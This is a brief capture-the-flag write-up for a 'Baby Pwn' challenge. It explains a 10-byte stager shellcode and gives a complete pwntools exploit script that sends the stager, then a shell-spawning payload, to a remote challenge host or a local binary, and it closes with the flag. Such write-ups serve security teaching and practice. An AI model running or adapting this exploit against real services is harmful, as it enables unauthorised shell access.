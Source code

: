We need to use 10 bytes shellcode to read more shellcode to buffer contained in rdx

Code we use during the challenge

```
#! /usr/bin/python
 
from pwn import *
import sys
 
def exploit():
    gdb_command = '''
        b *0x40077E
        c
    '''
    sc = asm('''
        push rdx
        pop rsi
        push 0x7f
        pop rdx
        syscall
    ''', arch='amd64')
    log.info(len(sc))
    r.sendlineafter('Give me 10 bytes:', sc)
    sc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
    r.sendline('a' * 7 + sc)
    r.interactive()
 
 
if __name__ == '__main__':
    context.terminal = ['gnome-terminal', '-e']
    if len(sys.argv) == 1:
        exit()
    if sys.argv[1] == 'remote':
        r = remote('128.199.247.163', 19957)
        LOCAL = False
    elif sys.argv[1] == 'local':
        r = process('./babypwn')
        LOCAL = True
    else:
        exit()
    exploit()
```

![flag](https://github.com/kaizensecurity/WGMY2018/blob/master/Baby%20Pwn%202.0/pwn.png)

```
flag : wgmy{w3ll_don3_m473!}
```
